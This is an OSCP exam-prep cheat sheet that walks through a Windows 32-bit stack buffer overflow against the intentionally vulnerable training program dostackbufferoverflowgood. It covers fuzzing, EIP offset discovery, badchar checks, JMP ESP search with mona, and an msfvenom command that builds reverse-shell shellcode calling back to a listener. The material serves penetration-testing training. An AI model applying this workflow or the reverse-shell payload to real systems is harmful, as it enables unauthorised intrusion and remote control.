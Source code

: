 # OSCP Buffer Overflow Cheat Sheet

The exploitation of the stack buffer overflow in the OSCP exam stil based on Windows 32-bit systems (march 2020 update).

In this cheat sheet we will use `dostackbufferoverflowgod` as a vulnerable application in our exploration process (more info here: https://github.com/justinsteven/dostackbufferoverflowgood).

The binary can be downloaded here: https://github.com/justinsteven/dostackbufferoverflowgood/blob/master/dostackbufferoverflowgood.exe

Below are the download links for all the tools needed for the study:

- Windows 7 Evaluation: https://gist.github.com/anonymous/c644cac9d77e2793742c13cf10d26cb8 (you can run on Windows 10 too)
- Immunity Debugger: https://www.immunityinc.com/products/debugger/
- Mona.py: https://github.com/corelan/mona

All installation processes are described in the links above.


## Fuzzing

We will run the `connect.py` script to verify the application's response.

After this step, we will run the `fuzzing.py` script to identify the point that the application will crack. But before that, on your Windows, attach the application to the Immunity Debugger.

Change the amount of "A" in the script until the application crash


## Offset

After finding the crash point of the application, we will identify the offset to the EIP address. For this we will generate a string with the pattern_create, from the MSF suite

```
msf-pattern_create -l 1024
```

Copy the EIP address into the Immunity Debugger and use the pattern_offset to identify this address

```
msf-pattern_offset -q 39654138
```

Now we can run `poc.py` and verify that our EIP has been overwritten with the character "B" (42 in hexadecimal)


## Badchars

To identify badchars we will use mona with the option `!mona bytearray`.

Insert the mona output in the `badchars.py` script and run against the application to identify the badchars.


There are many ways to carry out the badchar identification process (even mona has modules for that), but the most accurate way is visually. Follow the ASCII string in the Immunity Debugger and see what points this string crashed or skipped over.


## JMP ESP

After knowing the badchars of the application, we will identify the JMP ESP that will be responsible for changing the natural flow of the application and making it run the shellcode that we will insert into the stack.

The OPCODE for JMP ESP is `\xff\xe4` (in assembly). Using mona we will locate which register in the application that points to this OPCODE and so we can change the flow of the application to run our shellcode, rewriting the stack from its base (EBP).

Run `!mona modules` and identify the unprotected modules.

Run `!mona find -s "\xff\xe4"` to identify which of these pointers have the OPCODE for JMP ESP

Run `!mona jmp -r esp -cpb "\x00\x0a"` to identify which pointers do not have the badchars found.

By this point you may have already found the correct JMP ESP address. However, if you want to check, run `!mona find -s "\xff\xe4" -m dostackbufferoverflowgood.exe` directly on the identified vulnerable module.

At this point you will have the base address of the stack or return address (EBP). We need to convert this address to little-endian format to use it in our code. Just invert the bytes to perform this conversion:

```
0x080416BF  <->  "\xBF\x16\x04\x08"
```
 
 
 ## Exploit time
 
 We can now generate our shellcode excluding the badchars found:
 
 ```
 msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a"
 ```
 
 The `EXITFUNC=thread` option prevents the shellcode from crashing the application when executing our shellcode.
 
 Now just insert the msfvenom output in our `exploit.py` and run it against our application to gain access to the system exploiting the Buffer Overflow

